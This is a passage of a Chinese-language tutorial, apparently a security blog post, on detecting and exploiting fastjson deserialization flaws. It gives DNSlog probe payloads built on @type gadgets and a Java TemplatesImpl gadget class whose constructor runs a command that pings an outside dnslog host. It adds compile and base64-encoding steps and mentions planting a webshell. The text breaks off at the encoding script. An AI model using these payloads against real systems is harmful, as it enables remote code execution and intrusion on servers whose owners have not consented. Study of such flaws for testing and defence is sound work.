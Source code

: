 ![](https://gitee.com/fuli009/images/raw/master/public/20210822095652.png)

# fastjson深入探究

首先如何快速判断是否使用了fastjson呢

第一种方法就是使用报错回显

这里首先在web页面抓包

![](https://gitee.com/fuli009/images/raw/master/public/20210822095653.png)

然后修改GET为POST，添加`Content-Type:application/json`，在发送一个`{"test":"`，即可得到回显

![](https://gitee.com/fuli009/images/raw/master/public/20210822095654.png)

第二种方法就是使用dnslog测试，使用如下payload，这里的dnslog使用dnslog获得的网址进行替换即可

    
    
    {"@type":"java.net.Inet4Address","val":"dnslog"}{"@type":"java.net.Inet6Address","val":"dnslog"}{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}    {{"@type":"java.net.URL","val":"dnslog"}:"aaa"}Set[{"@type":"java.net.URL","val":"dnslog"}]Set[{"@type":"java.net.URL","val":"dnslog"}{{"@type":"java.net.URL","val":"dnslog"}:0

第三种方法就是使用nc监听端口，在之前漏洞复现中已经讲过，就不再赘述了

我们在前面用到的都是远程加载RMI或LDAP服务端上的恶意类，即远程加载恶意类，在一些情况下，这种远程加载恶意类的方法并不能百分之百能够利用成功，这里就可以使用本地利用方式，就可以不用远程加载恶意类

首先生成test.java文件

    
    
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler; import java.io.IOException; public class Test extends AbstractTranslet {    public Test() throws IOException {        Runtime.getRuntime().exec("ping test.0g7slo.dnslog.cn");    }     @Override    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {    }     public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {     }     public static void main(String[] args) throws Exception {        Test t = new Test();    }}

这里就可以ping一下dnslog来查看攻击是否成功，这里还有一种情况就是fastjson在真实情况下不出网，那么肯定是不能ping通的，这时候我们就可以选择写入webshell到web路径，前提是要知道绝对路径，或者是使用无文件回显来利用

编译test.java生成class类文件

    
    
    javac test.java

然后对class类文件进行base64编码，这里使用到py脚本

    
    
    import base64fin = open(r"test.class", "rb")fout = open(r"base64.txt", "w")s = base64.encodestring(fin.read()).replace("\n", "")fout.write(s)fin.close()fout.close()
